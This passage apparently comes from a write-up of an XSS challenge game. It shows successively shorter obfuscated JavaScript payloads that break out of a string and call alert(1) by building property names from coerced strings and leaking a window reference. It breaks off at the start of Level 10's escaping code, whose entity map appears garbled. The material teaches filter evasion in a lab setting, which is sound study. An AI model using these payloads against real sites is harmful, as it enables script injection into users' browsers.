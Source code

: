 We can improve it by defining a variable containing all our letters and then just referencing it:

```
	_=''+!1+!0+{}[0]+{} = "falsetrueundefined[object Object]"

	");_=''+!1+!0+{}[0]+{};[][_[3]+_[19]+_[6]+_[5]][_[23]+_[19]+_[10]+_[3]+
	_[5]+_[6]+_[7]+_[23]+_[5]+_[19]+_[6]](_[1]+_[2]+_[4]+_[6]+_[5]+'(1)')()//
```

Now the solution is 144 characters which is still far from the winners:

Next iteratation is to change the base payload for something sorter like window.alert(1) In chrome, we can leak a reference to window with:

```
	(0,[]["concat"])()[0]
```

So using the same strings as above we get the following 100 characters solution:

```
	");_=""+!1+!0+{}[0]+{};(0,[][_[23]+_[19]+_[10]+_[23]+_[1]+_[5]])
	()[0][_[1]+_[2]+_[4]+_[6]+_[5]](1)//
```

We are still taking too many chars for defining our alphabet. Here is where Mario surprised me once again with this tweet:

```
	");(_=!1+URL+!0,[][_[8]+_[11]+_[7]+_[8]+_[1]+_[9]])()[0][_[1]+_[2]
	+_[4]+_[38]+_[9]](1)//
```


Note that he is using !1+URL+!0 as the alphabet string and it difers for different browsers:

Firefox:

```
	_=!1+URL+!0="falsefunction URL() {
	 [native code]
	 }true"
```

Chrome:

```
	_=!1+URL+!0="falsefunction URL() { [native code] }true"
```

Other interesting Mario ’s finding is that inside with-statements, almost everything leaks [object Window] for example:

```
	with(0) x=[].sort,x()
```

###Level 10:

```
	function escape(s) {
		function htmlEscape(s) {
			return s.replace(/./g, function(x) {
			return { '<': '<', '>': '>', '&': '&', '"': '"', "'": ''' }[x] || x;
		 });
	}
	function expandTemplate(template, args) {
		return template.replace( /{(\w+)}/g,
		function(_, n) {
			return htmlEscape(args[n]);
		});
	}
		return expandTemplate(
			" \n\
    			<h2>Hello, <span id=name></span>!</h2> \n\
```